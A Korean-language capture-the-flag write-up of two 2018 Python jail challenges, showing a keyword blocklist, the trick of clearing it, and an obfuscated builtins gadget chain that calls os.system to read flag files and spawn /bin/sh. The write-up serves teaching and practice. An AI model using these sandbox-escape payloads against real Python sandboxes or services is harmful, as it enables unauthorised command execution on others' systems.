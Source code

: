 ```
>> print dir()
['b4n1ist15it', 'data', 'j']
>> print b4n1ist15it
['\\', '\\x', '%', 'sys', 'os', 'subprocess', '+', 'glob', 'exec', 'input', 'global', 'local', '.', 'open', 'read', 'file', 'from', 'eval', '_', 'attr', 'system', 'modules', '[', ']']
>> b4n1ist15it=''
>> __import__('os').system('cat /home/Pyjail2/flag')
TRUST{dir_mag1c_N3w_meta_pyja1l_1s_g00d_0r_b4d...?_t3l1_m3}
```

필터링 리스트를 확인하고 우회한 후 커맨드 인젝션을 했습니다.

# [2018_TRUSTEALTH] \[PWN] Pyjail3

```
getattr(__import__('os'),'system')("/bin/sh")

__import__('os') == vars(__builtins__)[dir(__builtins__)[55]](b4n1ist15it[6])

"system" == dir(vars(__builtins__)[dir(__builtins__)[55]](b4n1ist15it[6]))[215]

vars(__builtins__)[dir(__builtins__)[90]](vars(__builtins__)[dir(__builtins__)[55]](b4n1ist15it[6]),dir(vars(__builtins__)[dir(__builtins__)[55]](b4n1ist15it[6]))[215])("/bin/sh")
```

최상단에 있는 코드를 실행시키는 것이 최종 목표입니다. 아래는 필터링을 우회한 가젯(?)이며 맨 아랫줄에는 최종적으로 만들어지는 exploit 코드입니다.

```
>> vars(__builtins__)[dir(__builtins__)[90]](vars(__builtins__)[dir(__builtins__)[55]](b4n1ist15it[6]),dir(vars(__builtins__)[dir(__builtins__)[55]](b4n1ist15it[6]))[215])("/bin/sh")
cat /home/Pyjail3/flag
TRUST{pyja1l_1s_s0_fun_S0_s1eepy_n0w...}
```